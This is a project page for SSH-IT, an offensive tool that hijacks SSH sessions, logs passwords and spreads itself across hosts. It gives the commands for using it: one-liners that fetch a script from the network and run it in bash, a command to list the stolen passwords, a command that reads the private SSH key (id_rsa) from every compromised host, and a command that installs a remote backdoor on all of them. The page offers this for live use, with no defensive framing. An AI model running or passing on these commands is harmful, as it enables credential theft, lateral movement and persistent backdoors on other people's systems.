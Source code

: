 ```yaml
---
layout: default
title: ssh-it - deploy
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.config/prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.config/prng/thc_cli -r uninstall
```

### Environment variables:

Deployment can be controlled with these environment variables

|:---|:---|
|```THC_DEPTH=```|SSH-IT will spread to this depth and then stop. The default is ```THC_DEPTH=2```.|
|```THC_BASEDIR=```|Installation directory. Default is ```THC_BASEDIR="${HOME}/.config/prng"```.|
|```THC_VERBOSE=1```|For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red).|
|```THC_DEBUG=1```|For testing only: Display debug information|
|```THC_DEBUG_LOG=thc.log```|For testing only: Output (most) debug informatio to ```thc.log```.|

Example
```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

#### Help the team
Help us fix bugs and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

{% include contact-details.md %}

